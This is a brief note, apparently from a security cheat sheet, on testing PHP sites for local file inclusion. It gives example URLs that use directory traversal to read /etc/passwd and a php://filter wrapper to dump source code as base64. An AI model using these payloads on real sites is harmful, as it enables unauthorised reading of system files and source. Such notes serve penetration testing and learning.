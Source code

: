 Depending on how the site is set up, you may be able to navigate through the file system
`http://example.com/?file=filename.php`
This could be vulnerable, try finding the passwd file
`http://example.com/?file=../../../../etc/passwd`

You may be able to see the base64 code by adding php://filter/convert.base64-encode/resource= e.g.
`http://example.com/?file=php://filter/convert.base64-encode/resource=filename.php`

